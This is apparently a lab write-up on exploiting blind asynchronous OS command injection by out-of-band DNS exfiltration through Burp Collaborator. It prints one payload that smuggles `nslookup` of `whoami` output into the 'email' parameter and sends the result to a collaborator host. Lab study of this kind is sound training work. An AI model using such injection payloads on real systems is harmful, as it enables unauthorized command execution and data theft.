


# Blind OS Command Injection - Out-of-Band Data Exfiltration

## Overview
Exploited a blind, asynchronous OS command injection vulnerability with no direct output or writable directory access. Leveraged out-of-band DNS exfiltration via Burp Collaborator to extract the result of the `whoami` command.

**Key Challenge:** Asynchronous execution — no response reflection or file write possible.

## Attack Flow

### Step 1: Inject DNS Exfiltration Payload
Intercepted the feedback request and injected the following payload into the `email` parameter, embedding the command output into a DNS lookup to Burp Collaborator.

**Payload:**
```
email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
```



### Step 2: Retrieve Exfiltrated Data
Polled the Collaborator tab. The DNS interaction revealed the `whoami` output in the queried subdomain. Entered the retrieved username to solve the lab.



## Result
Successfully extracted the current username via out-of-band DNS exfiltration and solved the lab.

---

**Tools Used:** Burp Suite Professional (Proxy & Collaborator)
